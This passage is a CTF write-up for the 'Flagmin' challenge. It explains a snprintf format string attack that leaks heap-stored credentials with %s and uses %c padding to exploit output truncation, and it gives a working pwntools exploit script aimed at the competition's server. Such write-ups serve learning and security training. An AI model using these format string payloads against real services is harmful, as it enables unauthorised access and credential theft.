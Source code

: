 ```py

if __name__ == "__main__":
    main()
```

---

# Flagmin

This challenge is also a format string challenge using `snprintf`. The binary
checks if the parsed format string contains a "username-password" pair that was
randomly generated, then checks if the string ends with ":y".

The generated pairs are stored in the heap. We can use %s to get a
username:password pair since there are addresses on the stack pointing to the
generated strings. 

Since the binary appends :n to the end of our string, we need to somehow get
rid of it. `snprintf` takes an integer argument to indicate how many characters
to write to the output string. Extra characters after 0x80 are truncated, hence
we can use %c to push :n out of the string and put :y just before it.

```py
from pwn import *

exe = ELF("./flagmin_patched")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43040)

    return p


def main():
    p = conn()

    # good luck pwning :)
    p.sendline(b"%8$s")
    p.sendline(b"%16$s:%91c:y")

    p.interactive()


if __name__ == "__main__":
    main()
```

---